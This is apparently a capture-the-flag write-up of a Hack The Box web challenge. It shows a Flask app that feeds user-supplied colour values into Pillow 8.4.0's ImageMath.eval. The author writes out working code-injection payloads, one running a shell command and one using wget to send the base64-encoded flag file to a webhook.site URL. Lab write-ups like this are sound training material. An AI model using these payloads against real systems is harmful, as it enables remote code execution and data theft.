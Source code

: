 # amidst us

```
The AmidstUs tribe is a notorious group of sleeper agents for hire. We have plausible reasons to believe they are working with Draeger, so we have to take action to uncover their identities. Ulysses and bonnie have infiltrated their HQ and came across this mysterious portal on one of the unlocked computers. Can you hack into it despite the low visibility and get them access?
```

Looking at the source code we see that we control content evaluated by the Pillow library.

```py

#routes.py
@api.route('/alphafy', methods=['POST'])
def alphafy():
	if not request.is_json or 'image' not in request.json:
		return abort(400)

	return make_alpha(request.json) # we control



# util.py
def make_alpha(data):
	color = data.get('background', [255,255,255]) # we control

	try:
		dec_img = base64.b64decode(data.get('image').encode())

		image = Image.open(BytesIO(dec_img)).convert('RGBA')
		img_bands = [band.convert('F') for band in image.split()]

		# colour[0-2] is controlled

		alpha = ImageMath.eval(
			f'''float(
				max(
				max(
					max(
					difference1(red_band, {color[0]}), # we control
					difference1(green_band, {color[1]}) # we control
					),
					difference1(blue_band, {color[2]}) # we control
				),
				max(
					max(
					difference2(red_band, {color[0]}),
					difference2(green_band, {color[1]})
					),
					difference2(blue_band, {color[2]})
				)
				)
			)''',
			difference1=lambda source, color: (source - color) / (255.0 - color),
			difference2=lambda source, color: (color - source) / color,
			red_band=img_bands[0],
			green_band=img_bands[1],
			blue_band=img_bands[2]
		)

		new_bands = [
			ImageMath.eval(
				'convert((image - color) / alpha + color, "L")',
				image=img_bands[i],
				color=color[i],
				alpha=alpha
			)
			for i in range(3)
		]

		new_bands.append(ImageMath.eval(
			'convert(alpha_band * alpha, "L")',
			alpha=alpha,
			alpha_band=img_bands[3]
		))

		new_image = Image.merge('RGBA', new_bands)
		background = Image.new('RGB', new_image.size, (0, 0, 0, 0))
		background.paste(new_image.convert('RGB'), mask=new_image)

		buffer = BytesIO()
		new_image.save(buffer, format='PNG')

		return {
			'image': f'data:image/png;base64,{base64.b64encode(buffer.getvalue()).decode()}'
		}, 200

	except Exception as e:
		print(e)
		return '', 400

```

look for Pillow vulnerabilites

RCE before 9.0.0

https://github.com/advisories/GHSA-8vj2-vxx3-667w

check version in the challenge Docker container

```
docker exec -it web_amidst_us /bin/sh          
/app # ls -la
total 20
drwxr-xr-x    1 www      www           4096 May 15 12:44 .
drwxr-xr-x    1 root     root          4096 May 15 12:45 ..
drwxrwxr-x    1 www      www           4096 May 11 12:03 application
-rw-rw-r--    1 www      www             19 May 11 12:03 requirements.txt
-rw-rw-r--    1 www      www             81 May 11 12:03 run.py
/app # pip list
Package            Version
------------------ -------
click              8.1.3
Flask              2.1.2
importlib-metadata 4.11.3
itsdangerous       2.1.2
Jinja2             3.1.2
MarkupSafe         2.1.1
Pillow             8.4.0
pip                22.1
setuptools         57.5.0
typing_extensions  4.2.0
Werkzeug           2.1.2
wheel              0.37.1
zipp               3.8.0

```

`Pillow             8.4.0` vulnerable to RCE in ImageMath.eval

The image is not likely to be a vector for attack, but as we saw earlier the background values that are sent in the POST request are directly interpolated into an Image.eval() call via color[0-2]

```py
...SNIP

alpha = ImageMath.eval(
            
			f'''float(
				max(
				max(
					max(
					difference1(red_band, {color[0]}), 
					difference1(green_band, {color[1]})
					),
					difference1(blue_band, {color[2]})
				),
				max(
					max(
					difference2(red_band, {color[0]}),
					difference2(green_band, {color[1]})
					),
					difference2(blue_band, {color[2]})
				)
				)
			)''',
			difference1=lambda source, color: (source - color) / (255.0 - color),
			difference2=lambda source, color: (color - source) / color,
			red_band=img_bands[0],
			green_band=img_bands[1],
			blue_band=img_bands[2]
		)

..SNIP
```

so we can put a string with and exec() function to get RCE, let's try create a local file in the container.

intercept the post request with burp and change one of the background value to our payload.

```json
{
    "image" : "...",
    "background":
    [
        "exec('import os;os.system(\"id > /tmp/test.txt\")')" ,
        255,
        255
    ]
}

```

check container, it's there!

```
docker exec -it web_amidst_us /bin/sh            
/app # ls /tmp
test         tmp7f_gb08o
/app # cat /tmp/test
uid=1000(www) gid=1000(www) groups=1000(www)
/app #

```

now leak the flag to a webhook on the live version, intercepting the request just as before, have to use wget as curl is not on box

```json
{
    "image" : "...",
    "background":
    [
        "exec('import os;os.system(\"wget https://webhook.site/5c3e4cd0-b466-4f48-b4a8-f76c6b687854/?leak=$(cat /flag.txt | base64)\")')" ,
        255,
        255
    ]
}

```

we get the request to our webhook at

now base64 decode to get flag

```
echo -n SFRCe2lfc2xlcHRfbXlfd2F5X3RvX3JjZX0= | base64 -d
HTB{i_slept_my_way_to_rce}
```